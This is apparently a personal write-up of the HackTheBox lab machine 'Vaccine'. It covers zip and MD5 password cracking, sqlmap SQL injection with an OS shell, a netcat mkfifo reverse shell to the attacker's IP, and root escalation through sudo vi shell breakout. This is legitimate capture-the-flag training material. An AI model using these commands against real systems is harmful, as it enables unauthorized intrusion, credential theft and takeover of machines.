 ## HTB Starting Point: Vaccine
Today I worked on a few of the starting point machines from HackTheBox, as I have decided to hang out over here more. I just wanted to work on some boxes without the hand holding I feel like TryHackMe does. I wanted to do something blindly here and figure it out on my own. That’s not to say anything bad about THM. I love it. It is a great site and I have learned a lot from it, but THM is for learning while HTB is for sharpening. It is the same thing just with the training wheels removed.
So, let us get started on the first of my HTB writeups I will start doing here. This is Vaccine, a standard webserver with some lite password cracking, automated SQL injection to gain a foothold, and a relatively quick privesc after the fact. 
 
### Recon
I began by quickly port scanning the server to see where I could get in. I found a few open ports like ftp (21), ssh (22), and http (80). However, the FTP caught my eye due to an accessible zip file which nmaps default script scan was able to catch.
PICTURE (nmap.jpg) ![alt text](https://github.com/RazTheGoon/Vaccine/tree/main/VaccineImages/nmap.jpg)
 
So, I accessed the ftp server as anonymous and was able to get the file onto my local machine. However, upon trying to access it, I found the zip was password protected. This is where this machine’s lite password cracking begins.  
I ran zip2john on the zip file and output the hash to a separate file which I could then run john on. 
```zip2john backup.zip > zip.hash```
```john zip.hash```
This gave me a password which I was able to use to unzip the backup.zip file. Contained inside were 2 files, index.php and style.css  
  
I figured these were files for the webserver but catted them out first to check. Turns out index.php had a username and password within. Though the password was hidden behind some md5. That’s easy enough to correct by using any number of tools. I like [CrackStation](https://www.crackstation.net)
PICTURE (index_cat.jpg) ![alt text](https://github.com/RazTheGoon/Vaccine/tree/main/VaccineImages/index_cat.jpg)


After getting the username and password, it was time to go check out the website. 
 
I was greeted with a login page which gave me a chance to use the credentials. They worked
  
I found this lovely little page that appears to show a database of available models made by The MegaCorp Car Company.
  
PICTURE (cars.jpg) ![alt text](https://github.com/RazTheGoon/Vaccine/tree/main/VaccineImages/cars.jpg)
  
Searching the catalog will change the URL to show you query in the URL. This seem like something that could be vulnerable to SQL injection. 
So, I decided to run sqlmap on it to see. 
``` sqlmap -u "http://10.129.95.174/dashboard.php?search=" --cookie="PHPSESSID="```
This confirmed that the search was indeed vulnerable to SQLI via the UNION operator. So, I reran the command with the ```--os-shell``` option to see if I could get a shell as the database user. 
  
PICTURE (oshell.jpg) ![alt text](https://github.com/RazTheGoon/Vaccine/tree/main/VaccineImages/oshell.jpg)
  
It worked! 
  
### Now to get a real shell. 
I decided to go over to [RevShellGenerator]( https://www.revshells.com/) to make a reverse shell that would work correctly. My go-to is the nc mkfifo option. Plugging in my machines IP and preferred port left me with this:

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.100 6666 >/tmp/f```
   
After setting up my netcat listener and dropping the rev shell into my os-shell, I got a connection!  
  
PICTURE (revshell.jpg) ![alt text](https://github.com/RazTheGoon/Vaccine/tree/main/VaccineImages/revshell.jpg)
  
A quick shell upgrade with

```python3 -c 'import pty; pty.spawn("/bin/bash")'```  
  
### Now to search for a path to escalation. 
Note: I kept experiencing drops of my shell around this time. Sqlmap was unable to connect to the site and I would often lose my reverse shell. I think this was the HTB network, but I could always be wrong. If you have any ideas let me know! I chose to work fast through this inconvenience so pardon the lack of images past this point.
Normally I would pull over a script like linpeas.sh but the drops made me have to work manually. So I went through the file system looking for interesting files to work with. 
Running sudo -l required a password I didn’t have yet.
So, I checked:
/home  
/tmp   
/var/www/html  
In /var/www/html I ran  

```grep -I -R “pass”*```  

And found a cleartext password for the postgres user. Now let’s try ```sudo -l```
This let me know, before disconnecting again, that I could run vi as root. I know for a fact that there is an entry on [GTFObins]( https://gtfobins.github.io/) for that.
PICTURE (gtfobins.jpg) ![https://github.com/RazTheGoon/Vaccine/tree/main/VaccineImages/gtfobins.jpg)

I dropped connection again. So, I decided to go back in through ssh using the password I just found. It worked much better for me after that.
Ok. So now that I have a more stable shell, I can take more descriptive pictures
PICTURE (sudol.jpg) ![alt text](https://github.com/RazTheGoon/Vaccine/tree/main/VaccineImages/sudol.jpg)

```sudo -l``` showed me that I can use vi to privesc. A quick search on GTFObins gave me a few attack options. I tried to run ``` sudo vi -c ':!/bin/sh' /dev/null``` but it wasn’t getting me anywhere.

Then I tried the shell breakout methods. Method A didn’t work but method B did. 

First, I ran ```sudo vi /etc/postgresql/11/main/pg_hba.conf```

Then once vi opened I typed 

:set shell=/bin/sh
:shell
This gave me root!
PICTURE (root.jpg) ![alt text](https://github.com/RazTheGoon/Vaccine/tree/main/VaccineImages/root.jpg)

All that was left was to enter my flags on HTB. 
PICTURE (pwnd.jpg) ![alt text](https://github.com/RazTheGoon/Vaccine/tree/main/VaccineImages/pwnd.jpg)

Thanks for reading!

